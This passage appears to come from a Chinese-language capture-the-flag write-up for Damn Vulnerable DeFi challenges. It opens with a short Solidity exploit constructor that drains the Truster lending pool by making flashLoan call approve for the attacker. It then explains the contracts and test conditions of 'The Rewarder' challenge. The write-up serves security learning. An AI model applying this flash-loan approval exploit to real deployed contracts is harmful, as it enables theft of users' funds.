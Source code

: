 ```solidity

    constructor(address  _pool, address  _token){
        TmpAttacker attacker  = new TmpAttacker(msg.sender, _token,_pool);

        TrusterLenderPool pool = TrusterLenderPool(_pool);
        
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            attacker,
            TOKENS_IN_POOL
        );
        pool.flashLoan(0, address(attacker), _token, data);
        attacker.withdraw();
    }
}
```

## Challenge 4 - The Rewarder

### 合约

本题涉及的合约比较多，首先介绍ERC20Snapshot合约

**ERC20Snapshot**：继承自ERC20，通过SnapshotId可以追溯到每一个快照时间点的账户余额和总供应量，在ERC20 token的transfer之前会通过beforeTransfer来更新当前快照ID下的账号余额和总供应，通常用作分红、投票、空投等快照场景


![image](https://pic.imgdb.cn/item/654e69b5c458853aef7f3cb9.jpg)


这道题目中主要由RewardToken、AccountingToken、LiquidityToken和TheRewarderPool组成，它们的关系如下：

- TheRewarderPool对外提供deposit和withdraw方法
    - deposit：用户存入liquidityToken，mint对应份额的AccountingToken，根据当前的快照轮次mint出一定数目的rewardToken，每5天一个新的快照轮次
    - withdraw：burn对应份额的AccountingToken，将用户存入的liquidityToken转移给用户


![image](https://pic.imgdb.cn/item/654e6983c458853aef7eb11c.jpg)


除此之外，本题还提供一个闪电贷合约，可用于通过闪电贷借出liquidityToken

### 测试

- 创建alice bob charlie david四名用户，记录为users
- 部署LiquidityToken FlashLoanerPool 合约，向FlashLoanerPool中转入liquidityToken 数目为：TOKENS_IN_LENDER_POOL
- 部署 TheRewarderPool （连带部署RewardToken AccountingToken）
- 遍历users数组，向每个用户都转入一定数目的liquidityToken，并deposit到TheRewarderPool，此时轮次为1
- 将区块时间戳向后延长5天，再次遍历user数组，依次触发distributeRewards，每个用户都等分到rewardToken，此时轮次为2
- 执行攻击脚本
- 期望当前轮次为3，遍历users数组，触发distributeRewards，每个用户分到的rewardToken少于原来的1/4
    - 期望player的rewardToken余额大于0
    - 期望player的liquidityToken数目为0，FlashLoanerPool中的liquidityToken数目不变
    